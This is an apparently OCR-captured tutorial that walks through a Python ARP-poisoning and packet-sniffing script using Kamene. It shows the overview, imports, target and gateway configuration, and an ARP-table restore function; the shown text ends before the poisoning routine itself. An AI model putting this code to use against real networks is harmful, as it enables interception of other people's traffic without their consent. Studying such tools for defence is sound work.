 This script **performs ARP poisoning** to intercept network traffic between a target and a gateway while capturing packets for analysis. 🚨  

---

## **1. How It Works**  

### **🔹 Overview**  
1. **Retrieves MAC addresses** of the target and gateway.  
2. **Performs ARP poisoning** to trick both into sending traffic through the attacker's machine.  
3. **Sniffs and captures packets** from the target.  
4. **Restores ARP tables** to avoid network disruption after execution.  

---

## **2. Code Breakdown**  

### **🔹 Importing Dependencies**  
```python
import kamene.all as kam
import sys
import threading
import time
```
- **Kamene** (a fork of Scapy) is used for packet crafting and sniffing.  
- **`threading`** allows ARP poisoning to run in the background.  

---

### **🔹 Configuration Variables**  
```python
interface = "en1"  # Change based on your network adapter
tgt_ip = "172.16.1.255"  
tgt_gateway = "172.17.55.245"  
packet_count = 500  
poisoning = True  
```
- **`interface`** → The network adapter to use for packet sniffing.  
- **`tgt_ip`** → Target machine’s IP address.  
- **`tgt_gateway`** → Gateway (router) IP address.  
- **`packet_count`** → Number of packets to capture.  

---

### **🔹 Function: Restore ARP Tables**  
```python
def restore_target(gateway_ip, gateway_mac, target_ip, target_mac):
    print("[*] Restoring target...")
    send(kam.ARP(op=2, psrc=gateway_ip, pdst=target_ip, hwdst="ff:ff:ff:ff:ff:ff", hwsrc=gateway_mac), count=5)
    send(kam.ARP(op=2, psrc=target_ip, pdst=gateway_ip, hwdst="ff:ff:ff:ff:ff:ff", hwsrc=target_mac), count=5)
```
- Sends **legitimate ARP responses** to restore network integrity after poisoning.  

---